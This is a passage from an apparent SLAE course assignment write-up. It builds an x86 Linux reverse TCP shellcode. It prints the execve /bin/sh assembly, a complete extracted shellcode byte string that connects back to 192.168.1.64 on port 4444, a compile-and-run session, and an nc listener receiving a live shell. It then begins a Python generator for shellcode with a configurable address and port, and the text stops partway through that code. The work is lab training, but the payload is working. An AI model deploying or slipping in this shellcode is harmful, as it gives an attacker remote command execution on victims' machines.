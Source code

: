 ```nasm


	; execve stack-sh
	xor eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80	
```

It works...
```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ ./compile.sh reverse-tcp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ objdump -d ./reverse-tcp|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc9\x68\xc0\xa8\x01\x40\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xf3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ vim shellcode.c 
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ ./shellcode 
Shellcode Length:  86

```

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment2$ nc -lvp 4444
listening on [any] 4444 ...
192.168.1.64: inverse host lookup failed: Unknown host
connect to [192.168.1.64] from (UNKNOWN) [192.168.1.64] 36003
id
uid=1000(hiro) gid=1000(hiro) groups=1000(hiro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner)
```


#### Generate a reverse TCP shellcode with configurable address and port

```python
#!/usr/bin/env python

import sys
import struct
import os
import binascii
import socket

def port2hex(port):
	return struct.pack(">H", port)


def address2hex(address):
	addr = binascii.hexlify(socket.inet_aton(address))
```